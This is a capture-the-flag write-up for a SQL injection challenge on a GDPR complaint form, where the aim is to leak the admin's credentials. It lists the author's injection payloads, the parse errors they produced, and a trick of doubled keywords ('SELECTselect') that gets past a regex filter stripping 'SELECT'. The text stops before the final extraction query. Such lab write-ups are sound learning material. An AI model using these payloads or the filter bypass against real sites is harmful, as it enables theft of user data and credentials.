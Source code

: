 # #2

{% hint style="info" %}
#### The admin of this website made a GDPR form, but he doesn't reply to any complains.

Show the **admin** how you can leak information about users by stealing his **username** and **password**.

### Goal

Recover the admin information in a single query, the output **must** look like this

text: `admin:<email>:<password>`
{% endhint %}

Here is the code that we have:

```sql
-- run
CREATE TABLE complain (text TEXT);
-- run
INSERT INTO complain(text) VALUES ('' AND 0); /* I don't really care about your complains */

-- return
SELECT 
  text
FROM complain
LIMIT 5;
```

After looking for the terms that i didn't quite understand i found this article:

{% embed url="https://portswigger.net/daily-swig/isnt-it-ironic-exploiting-gdpr-laws-to-gain-access-to-personal-data" %}

I have to input an email so i tried `admin@test.com` and had `0` as the output

SQL evaluates `'admin@test.com' AND 0`:

* In SQL, logical `AND` evaluates both sides. Here, any non-empty string like `'admin@test.com'` is treated as `TRUE`.
* `0` is treated as `FALSE`.
* `TRUE AND FALSE` evaluates to `FALSE`, and in SQLite, `FALSE` is represented as `0`.

As a result, the value `0` is inserted into the `text` column.

So i tried escaping the user input to retrieve some informations without thinking too much at first:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Key points that we can note:

* our "-" is blacklisted
* SELECT is not in the output

Those seem odd until i looked at the nodes that we're named "blacklist" and "Regex replace" (now it's not so odd anymore :joy:)

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Makes sense now, let's go deeper now that we know this

So i looked up different techniques to replace those inputs and tried the following payloads:

```sql
') UNION ALL (S||E||L||E||C||T email FROM users)# 
#and
') UNION ALL VALUES('admin@example.com')#
```

Did not work and i got pretty much the same error ->

```
Parse error near line 5: near "(": syntax error
  INSERT INTO complain(text) VALUES ('') UNION ALL (S||E||L||E||C||T email FROM 
                                     error here ---^
```

```
Parse error near line 5: near "''": syntax error
  VALUES ('') UNION ALL VALUES('admin@example.com')'' AND 0); /* I don't really
                                      error here ---^
```

So i took a step backwards and focused on only trying to escape properly all user inputs and got the hang of it with the following payload:

```
') ('
```

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

and luckily with a mistype i got the following output that caught my eye:

```
') UNION SELECTs('
```

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

so from there i told myself that it was the way to go to bypass the regex problem and got a valid input:

```
') UNION SELECTselect ('
```

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i went to the following cheat sheet to see some enumeration commands:

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md" %}
